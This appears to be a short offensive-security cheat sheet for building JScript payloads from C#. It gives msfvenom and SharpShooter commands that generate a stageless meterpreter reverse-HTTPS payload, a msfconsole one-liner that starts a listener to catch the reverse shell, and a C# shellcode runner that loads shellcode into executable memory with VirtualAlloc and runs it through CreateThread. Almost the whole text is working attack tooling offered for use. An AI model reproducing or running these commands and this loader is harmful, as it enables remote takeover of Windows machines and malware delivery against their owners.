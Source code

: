 # C\#

### Sharpshooter

[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) Allows us to automate the process of creating a .NET assembly and then converting it to JScript (use python2)

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.txt

sudo python2 SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set lhost tun0; set lport 443; exploit"
```

### Shellcode Runner

This is meant to be converted to JScript (compile as x64). If standalone is required add a main method and remove RunProcess.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet = CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = new byte[628] {0xfc,0x48,...};
        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
